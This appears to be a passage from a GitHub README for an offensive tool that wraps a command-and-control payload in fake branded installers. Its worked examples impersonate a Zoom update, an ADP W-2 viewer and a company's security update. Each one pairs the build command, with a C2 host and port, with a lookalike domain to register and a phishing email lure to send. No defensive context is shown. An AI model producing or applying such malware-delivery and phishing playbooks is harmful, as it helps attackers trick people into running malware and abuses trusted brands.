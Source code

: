 
## 🚀 Quick Examples

### Example 1: Target Uses Zoom

```bash
# Build Zoom payload
python3 tools/payload_brander.py --template zoom --c2-host 10.0.0.5 --c2-port 443

# Result: Zoom-Update-5.16.10.exe

# Register domain: zoom-update.com
# Upload to: https://zoom-update.com/download
# Send email: "Critical Zoom security update available"
```

### Example 2: Tax Season (January)

```bash
# Build W-2 viewer
python3 tools/payload_brander.py --template adp --c2-host 10.0.0.5 --c2-port 443

# Result: ADP-W2-Viewer-2024.exe

# Register domain: adp-w2-portal.com
# Upload to: https://adp-w2-portal.com/viewer
# Send email: "Your 2024 W-2 is ready - download viewer"
```

### Example 3: Company-Specific Tool

```bash
# Custom branding for "SquidAI Bot"
python3 tools/payload_brander.py \
  --custom \
  --company "SquidAI Technologies" \
  --product "SquidAI Bot Security Update" \
  --c2-host 10.0.0.5 \
  --c2-port 443 \
  --delivery-package

# Result: SquidAI-Bot-Security-Update.exe + landing page

# Register: squidai-updates.com
# Email: "IT has released mandatory SquidAI Bot update"
```

---

## 📖 Full Documentation

**See these files for complete details:**
